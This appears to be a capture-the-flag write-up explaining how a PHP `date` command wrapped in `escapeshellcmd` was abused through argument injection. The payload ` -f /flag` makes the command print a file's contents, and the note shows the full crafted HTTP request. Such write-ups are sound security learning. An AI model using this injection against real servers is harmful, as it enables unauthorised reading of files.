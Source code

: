 
2025-05-22 11:06

Source: [[linux]]

The first thing was to understand the following exec command in [[PHP]] source code.

```
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
```

The only parameter we could change was format and fortunately it was not being sanitized. So I was sure that I have to exploit something from here.  
I understood that the following command runs on the server
```
date +'<format here>'
```

For a long time I kept thinking ways to execute `cat` command somehow but the `escapeshellcmd` function wouldn’t allow me to do so. So I went ahead and opened the `man` page of `date` using  `man page` and see if I could print a file using this and I did. 
The `-f` flag can open `DATEFILE` and read date from it, however if the file format was not DATEFILE, it would print the contents of the file as part of the error.
So I carefully crafted a request to read the flag file (which btw had to be guessed where is) - turned out it was at `/flag.`  
`format=' -f /flag'`  

```
GET /?format=%27%20-f%20%2Fflag%27 HTTP/1.1
Host: strange.kp7b0h3vueu5g.ap-south-1.cs.amazonlightsail.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Length: 4
```

### References
date man page - https://man7.org/linux/man-pages/man1/date.1.html

https://0xkn1gh7.com/2024/06/20/Bitguard-Cybersecurity-Hackathon-2024-Writeups/